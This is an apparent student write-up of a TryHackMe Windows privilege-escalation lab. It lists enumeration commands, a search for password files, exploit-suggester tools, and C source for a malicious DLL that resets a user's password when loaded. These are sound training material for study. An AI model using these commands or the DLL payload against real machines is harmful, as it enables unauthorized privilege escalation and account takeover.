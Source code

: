# Writeup for [Windows privilege escalation](https://tryhackme.com/room/winprivesc)

## Task1: Introduction

Some information listed about usergruops and how to reach more privileged users.

## Task 2: Information Gathering

* rdp to target machine with xfreerdp `xfreerdp /u:user /p:Password1 /v:10.10.49.229`
* list user `net users`
* showing system info `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`
* list installed patches `wmic qfe Caption,Description,HotFixId,InstalledOn`
* detect if Windows Defender is enabled `sc query windefend` (using powershell replace `sc` width `sc.exe`)

* (done but not useful for this task)
  * find password string in txt files `findstr /si password *.txt`
  * display network connections `netstat -ano`
  * display scheduled tasks `schtasks /query /fo LIST /v` (compared to cronjobs)
  * list drivers `driverquery`

## Task 3: Tools of the Trade

* [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Windows Exploit Suggester](https://github.com/bitsadmin/wesng)
* When connected through a meterpreter shell `use multi/recon/local_exploit_suggester`


## Task 4: Vulnerable Software

* rdp to target machine with xfreerdp `xfreerdp /u:user /p:Password1 /v:10.10.194.27`
* list installed programs `wmic product get name,version,vendor`
* get some more information about runnign services `wmic service list brief | findstr "Running"`
* search for version number `wmic product get name,version,vendor | findstr "Fitbit"`
* search on kali for Fitbit exploit `searchsploit Fitbit`
* get FoxitReader Versionnubmer from binary (Powershell) `(Get-Command 'C:\Program Files (x86)\Foxit Software\Foxit Reader\FoxitReader').FileVersionInfo.FileVersion`


## Task 5: DLL Hacking

* rdp to target machine with xfreerdp `xfreerdp /u:user /p:Password1 /v:10.10.252.180`
* mingw (installable via `apt install gcc-mingw-w64-x86-64`) command to generate dll file `x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`
* restart dllsvc service `sc stop dllsvc & sc start dllsvc`
* login as user jack [howto here](https://stackoverflow.com/a/34307483/5202550)
* find flagdll.txt and print with `type ./flagdll.txt`


### Skeleton of Malicious DLL

```ps
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        # system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        system("cmd.exe /k net user jack Password1");
        ExitProcess(0);
    }
    return TRUE;
}
```

## Task 6: Unquoted Service Path

* get running service with pathnames `wmic service get name,displayname,pathname,startmode`
* get more information about found service `sc qc unquotedsvc`
* use installed program (on desktop) to find paths with write access
  * use installed program `.\acesschk64.exe /accepteula -uwdq "C:\"`
  * use installed program `.\acesschk64.exe /accepteula -uwdq "C:\Program Files\"`
  * use installed program `.\acesschk64.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`
* useful comamnd to find by filename `dir <filename> /s` (executed from C:\\)
* print content of flag file `type flagUSP.txt`
